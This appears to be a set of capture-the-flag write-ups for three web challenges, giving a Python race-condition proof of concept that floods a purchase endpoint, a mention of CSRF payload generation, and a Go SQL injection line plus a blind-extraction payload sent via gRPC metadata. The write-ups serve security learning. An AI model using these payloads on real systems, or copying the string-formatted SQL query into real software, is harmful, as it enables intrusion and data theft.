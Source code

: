 The code is obfuscated with YAK Pro. You can find unobfuscated one in this repo.

### Writeup - Faster Shop (Race Condition)

*82 solves / 345 pts*

*Description: Be as fast as possible to fast!*

No lock presents in db queries. PoC:

```python
from requests import post
from multiprocessing import *
import time
def f():
    post("http://host/buy/1", headers={
        "cookie": "token=[YOUR TOKEN]"
    })
for i in range(20):
    p = Process(target=f)
    p.start()
time.sleep(2)
```

### Writeup - Customer (CSRF)

*47 solves / 382 pts*

*Description: Shou just told admins in his company not to click any link sent by unknowns but they are just too ignorant and assume Chrome is so secure…*

You can simply generate payload with any existing tool for CSRF profiling.

### Writeup - lightSequel (SQL Injection)

*24 solves / 1174 pts*

*Description: Shou just learnt gRPC! Go play with his nasty API!*

CAVEAT 1: a hostname is given but obviously only IP works

Code that causes SQL Injection:

```go
// main.go:L69
Where(fmt.Sprintf("user_id = (SELECT id FROM users WHERE token = '%s')", userToken)).
```

PoC (bruteforce each character):

```go
md := metadata.Pairs("user_token", "1' OR (SELECT COUNT(*) FROM flags WHERE flag LIKE '%we{%') > 0))/*")
ctx = metadata.NewOutgoingContext(context.Background(), md)
var header, trailer metadata.MD
r, err := c.GetLoginHistory(ctx, &pb.SrvRequest{}, grpc.Header(&header), grpc.Trailer(&trailer))
```
